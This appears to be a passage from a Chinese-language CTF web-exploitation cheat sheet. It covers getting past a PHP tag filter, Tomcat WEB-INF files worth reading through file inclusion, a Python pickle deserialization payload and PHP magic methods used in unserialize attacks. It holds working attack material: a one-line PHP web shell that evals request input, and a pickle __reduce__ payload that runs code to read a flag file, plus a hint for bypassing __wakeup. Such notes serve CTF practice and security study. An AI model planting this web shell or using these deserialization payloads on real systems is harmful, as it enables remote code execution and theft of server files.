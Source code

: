 ### File Content

过滤了`<?`/`<?php`

```php
<script language="php">eval($_REQUEST[123])</script>
```

## File Include/Read

### tomcat

WEB-INF主要包含一下文件或目录：    

- /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。    
- /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中   
- /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件    
- /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。    
- /WEB-INF/database.properties：数据库配置文件

## UnSerialize

### python

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):  ##当pickle对象被调用时自动执行
       return (eval, ("open('/flag.txt','r').read()",)) ##注意要是元组

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

### PHP

#### 序列化特性

> __construct()//当一个对象创建时被调用
>
> __destruct() //当一个对象销毁时被调用
>
> __toString() //当此类的对象被当作一个字符串使用
>
> __sleep()//在对象在被序列化之前运行
>
> __wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
>
> __get()//获得一个类的成员变量时调用
>
> __set()//设置一个类的成员变量时调用
>
> __invoke()//此类的对象作为函数被调用时调用
>
> __call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
